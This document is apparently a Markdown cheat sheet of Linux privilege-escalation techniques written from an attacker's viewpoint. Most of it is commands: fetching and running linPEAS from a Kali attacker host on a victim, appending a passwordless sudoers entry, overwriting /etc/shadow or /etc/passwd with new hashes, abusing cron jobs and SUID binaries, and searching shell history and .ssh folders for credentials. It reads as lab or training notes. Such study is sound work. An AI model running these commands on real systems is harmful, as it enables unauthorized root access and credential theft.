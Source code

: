 ## Intro
Use Linpeas if possible

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Alternative enumeration script: https://github.com/diego-treitos/linux-smart-enumeration/tree/master

On the attacker host:
```
# determine IP address of Kali
ip a

# create python webserver in the directory where linpeass are located
python -m http.server 8080
```
From the victim host
```

#Either of the below
wget http://<KALI IP>:8080/linpeas.sh
curl --output linpeas.sh http://<KALI IP>:8080/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```
## Quick privesc
If you can execute as root, below is a simple onliner to get permanent privesc
```
# Add any other user to sudoers
echo '<username> ALL=(ALL) NOPASSWD:ALL' >> /mnt/root/etc/sudoers
```

## Basic
Check if you can become root without password
```
su root
```

Check what priviliges you have (what can be run as sudo without password)

Compare with the list here: https://gtfobins.github.io/#+sudo

Also check which environment variables are inherited (look for the env_keep options)
```
sudo -l
```
## Interesting binaries
If there is any interesting binary (e.g suid or sudo) check ot how to exploit it here:\
https://gtfobins.github.io/

## passwd and shadow

Check if you can read/write /etc/shadow.
- Can Write -> replace root password
- Can Read -> crack the passwords
```
ls -l /etc/shadow

# Generate new password hash to overwrite /etc/shadow
mkpasswd -m sha-512 test
```

Check if you can write to /etc/passwd
- Can write -> add root password directly here
```
ls -l /etc/passwd

# Generate new password hash to overwrite /etc/passwd
openssl passwd test
```

## Crontab
Check what is executed in cron
- edit the .sh files if possible
  - maybe they include wildcards (*) that can be abused? 
- replace executable files\
- check location of the PATH variable, can you do search order hijacking?
```
cat /etc/crontab
```

## SUID file
Executables that are executed in the context of root user.
Find all SUID files and look for the weird ones (e.g. in the user dir)

List of all commonly exploited SUID binaries: https://gtfobins.github.io/#+suid
```
find / -type f -perm -u=s 2>/dev/null
# or
find / -user root -perm -4000 -print 2>/dev/null
```
## Passwords & keys
Maybe password is available in any log or config file?
```
# User history
cat ~/.*history | grep pass

# SSH config files (must be readable)
find / -name ".ssh" 2>/dev/null
```

## Services & listening ports
```
# show the port
ss -tln

#show the name
ss -tl
```

## Find exploits
https://www.exploit-db.com/
- Exploits for SUID executables

https://github.com/jondonas/linux-exploit-suggester-2
- Exploits for the Linux itself

## Additional materials
https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
